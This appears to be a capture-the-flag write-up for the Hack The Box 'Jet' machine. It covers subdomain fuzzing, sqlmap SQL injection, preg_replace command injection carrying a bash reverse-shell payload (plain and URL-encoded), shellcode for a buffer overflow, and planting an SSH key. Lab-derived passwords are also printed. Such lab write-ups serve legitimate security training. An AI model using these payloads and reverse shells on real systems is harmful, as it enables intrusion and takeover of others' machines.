

# Flags
-----

## Connect FLAG

Scan

1. Scan the machine. Find multiple ports open.
2. Enther web server and find the flag in the home page.

## Digging in...

Network

1. Find domain with `dig` command.
2. `dig @ip -x ip` to find the domain.
3. Add the domain to `/etc/hosts` file.
4. Enter web server and find the flag in the home page.

## Going Deeper

Discovery

1. Scan subdomains with `wfuzz`.
2. `wfuzz -c --hw=98 -w /usr/share/wordlists/dirb/subdomains-top1million-110000.txt -H "HOST: FUZZ.<domain>.jet http://<domain>.jet`.
3. dirsearch to find hidden directories `dirsearch -u http://<domain>.jet`.
4. found `/js/secure.js`
5. read `eval` function and obtain

```js
function getStats()
{
    $.ajax({url: "/dirb_safe_dir_rf9EmcEIx/admin/stats.php",

        success: function(result){
        $('#attacks').html(result)
    },
    error: function(result){
         console.log(result);
    }});
}
getStats();
setInterval(function(){ getStats(); }, 10000);
```

6. Enter `/dirb_safe_dir_rf9EmcEIx/admin/stats.php` and obtain a number.
7. Delete `stats.php` and go inside `/dirb_safe_dir_rf9EmcEIx/admin/` and find a login
8. Inspect source code and find a flag in the comments. 

## Bypassing Authentication

SQL Injection

1. Capture request with Burp Suite.
2. Save request file by using the proxy tab.
3. Do a sql injection with `sqlmap` to find the password of the `admin` user.
4. `python3 sqlmap.py --batch --dbs -r ~/Documents/Proyectos/hack-the-box/fortress/jet/req --ignore-code 401`
5. `python3 sqlmap.py -D jetadmin --dump --batch -r ~/Documents/Proyectos/hack-the-box/fortress/jet/req --ignore-code 401`
6. Password is Hackthesystem200
7. Decode the SHA256 password and login into the admin panel.
8. Find a flag in the home page.

## Command

Command Injection

1. Look around in the page
2. Find that the only thing with interaction is the email widget.
3. Try to send an email
4. See that there is a profanity filter
5. Enter burp suite and capture the request

```bash
POST /dirb_safe_dir_rf9EmcEIx/admin/email.php HTTP/1.1
Host: www.securewebinc.jet
Content-Length: 276
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.securewebinc.jet
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dashboard.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=04r2ani40qfqn96icomi2uv816
Connection: close

swearwords%5B%2Ffuck%2Fi%5D=make+love&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fi%5D=penis&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=adsdsa%40asd&subject=123&message=whore&_wysihtml5_mode=1
```


6. We should send a message which triggers the filter for example `whore`
7. Replace the second part of the message `swearwords%5B%2Fwhore%2Fi%5D=escort`
8. Start a listener with `nc -lvnp 4444`
9. Replace `escort` with `system("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'");` but URL encoded.

```
swearwords%5B%2Ffuck%2Fi%5D=make+love&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fe%5D=%73%79%73%74%65%6d%28%18%27%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%34%2f%34%34%34%34%20%30%3e%26%31%22%27%19%29%3b&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=test%40local.com&subject=Test&message=%3Cp%3Edick%3C%2Fp%3E%3Cp%3Ebitch%3Cbr%3E%3C%2Fp%3E&_wysihtml5_mode=1
```

10. If everything goes well, we should have a shell.

## Overflown

1. Enumerate system

```bash
www-data@jet:/home/tony$ cat .bash_history 
openssl rsautl -decrypt -inkey keys/private.key -in key.bin.enc -out key.bin
openssl enc -d -aes-256-cbc -in secret.enc -out secret.txt -pass file:./key.bin
vi secret.txt
rm secret.txt 
rm key.bin
rm keys/private.key 
exit
```

```bash
/var/www/html/dirb_safe_dir_rf9EmcEIx/admin/db.php:$hashPassword = password_hash($password,PASSWORD_BCRYPT);                                                              
/var/www/html/dirb_safe_dir_rf9EmcEIx/admin/db.php:$password = "dcr46kdl6zsld68idtyufldro";                                                                               
/var/www/html/dirb_safe_dir_rf9EmcEIx/admin/db.php:$password = 'apasswordhere';   
```

```bash
/opt/source/php-5.2.17/ext/soap/TODO.old
```

```bash
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/lib/uncompress.so
/home/leak
/bin/umount
/bin/su
/bin/fusermount
/bin/mount
/bin/ping
/bin/ntfs-3g
/bin/ping6
```

2. In the `/home` there is a file called `leak` which is a binary that we are going to download and analyze.
3. We can use `checksec` to see the security features of the binary.

```bash
● ● λ checksec --file=leak
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   78) Symbols       No    0               2               leak
```



```bash
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

Execute `poc.py` to get into the system with the user `alex`.

Add your id_rsa.pub to the `authorized_keys` file. Then, login with `ssh -i id_rsa alex@10.13.37.10`.

## Secret Message

### Ports

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:7777            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1472/nginx: worker 
tcp        0      0 10.13.37.10:9201        0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:5555            0.0.0.0:*               LISTEN      -               
tcp        0      0 10.13.37.10:53          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:953                 :::*                    LISTEN      -               
tcp6       0      0 127.0.0.1:9200          :::*                    LISTEN      -               
tcp6       0      0 127.0.0.1:9300          :::*                    LISTEN      -               
tcp6       0      0 :::53                   :::*                    LISTEN      -               
udp        0      0 10.13.37.10:53          0.0.0.0:*                           -               
udp        0      0 127.0.0.1:53            0.0.0.0:*                           -               
udp6       0      0 :::53                   :::*                                -    

### Versions

- Nginx 1.10.3
- OpenSSH 7.2p2
- ISC BIND 9.10.3-P4-Ubuntu
- Handlebars 1.3.0
- CKEditor 4

### Links

- https://library.mosse-institute.com/articles/2022/06/using-metasploit-to-enumerate-ssh/using-metasploit-to-enumerate-ssh.html
- https://github.com/rapid7/ssh-badkeys/tree/master/authorized
- https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4
- https://www.shellhacks.com/encrypt-decrypt-file-password-openssl/
- https://stackoverflow.com/questions/44556590/how-can-i-exploit-a-buffer-overflow
- https://myhack.tech/revexp/
- https://gist.github.com/grittyninja/64cf24c311acf7cd1ec652ebefec59ed